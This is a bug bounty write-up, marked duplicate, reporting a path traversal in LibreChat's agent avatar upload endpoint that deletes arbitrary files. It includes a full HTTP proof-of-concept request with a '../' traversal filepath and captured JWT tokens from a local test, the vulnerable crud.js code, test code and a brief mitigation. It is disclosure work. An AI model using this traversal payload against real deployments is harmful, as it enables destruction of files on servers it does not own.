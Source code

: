 ```yaml
---
layout: post
title: [BugBounty][duplicate] Path Traversal that leads to remove other files with node permission in danny-avila/librechat
description: Path Traversal that leads to remove other files with node permission in danny-avila/librechat
tags: huntr bugbounty path-traversal      
category: bugbounty 
---   
```

  
# 📜 Description     
    
A path traversal attack (also known as directory traversal) is a security vulnerability that allows attackers to manipulate file or directory paths in order to access unintended files or directories outside the intended folder structure. When a web application provides insufficient validation or sanitization of user inputs, attackers can exploit this weakness by crafting requests that traverse directories to access sensitive system files or perform unauthorized actions like deleting files.  
         
# 🕵️ Proof of Concept    

I created the file in /app/test/hacked for testing if the file removes or not. The file had the permission of node.     
     
```http
POST /api/agents/avatar/asdf HTTP/1.1
Host: localhost:3080
Content-Length: 10352
sec-ch-ua-platform: "Windows"
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY3MGZhNWE1YTcyY2QwNjZmMzQxYjcwZCIsInVzZXJuYW1lIjoiYWFhYWEiLCJwcm92aWRlciI6ImxvY2FsIiwiZW1haWwiOiJhYWFhYUBuYXZlci5jb20iLCJpYXQiOjE3MjkxMzgzNzcsImV4cCI6MTcyOTEzOTI3N30.Drs4845G6BvwlTsbPmIU97COOEpUYnb1QPNDxczl77c
Accept-Language: ko-KR,ko;q=0.9
sec-ch-ua: "Chromium";v="129", "Not=A?Brand";v="8"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryqD8OKhALyMzAPlIU
Origin: http://localhost:3080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3080/c/new
Accept-Encoding: gzip, deflate, br
Cookie: refreshToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY3MGZhNWE1YTcyY2QwNjZmMzQxYjcwZCIsImlhdCI6MTcyOTEzODM3NywiZXhwIjoxNzI5Njk4NjI0fQ.QnMNZfYNdC-kKdfjxeOWihbiF053uWNiPPsnWJU75m0
Connection: keep-alive

------WebKitFormBoundaryqD8OKhALyMzAPlIU
Content-Disposition: form-data; name="file"; filename="avatar.png"
Content-Type: image/png

PNG Binary
------WebKitFormBoundaryqD8OKhALyMzAPlIU
Content-Disposition: form-data; name="avatar"

{
    "source":"local",
    "filepath":"/uploads/670fa5a5a72cd066f341b70d/../../../../../../../../app/test/hacked"
}
------WebKitFormBoundaryqD8OKhALyMzAPlIU--
```     
     
This problem occurs in /api/server/services/Files/Local/crud.js. It's because there is no verification logic for the path.    
    
```javascript
if (file.filepath.startsWith(`/uploads/${req.user.id}`)) {
    const basePath = file.filepath.split('/uploads/')[1];
    const filepath = path.join(uploads, basePath);
    await fs.promises.unlink(filepath);
    return;
}
```    
          
## Test Code    
     
```javascript
const path = require('path');

const basePath = "/uploads/670fa5a5a72cd066f341b70d/../../../../../../../../app/test/hacked".split("/uploads/")[1];
console.log(basePath);
console.log(path.join("/uploads/", basePath)); // OUTPUT: /app/test/hacked
```

# 🔐 Mitigations    
     
you can use the regex function to extract the last element of path or check the path if the dot includes in path.          
     
# 📚 References      
- ![OWASP - Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal) 
- ![PortSwigger - Path Traversal](https://portswigger.net/web-security/file-path-traversal)     
      
# Impact
An attacker could perform actions not intended by application like delete arbitrary files on file system including application source code or configuration and critical system files.         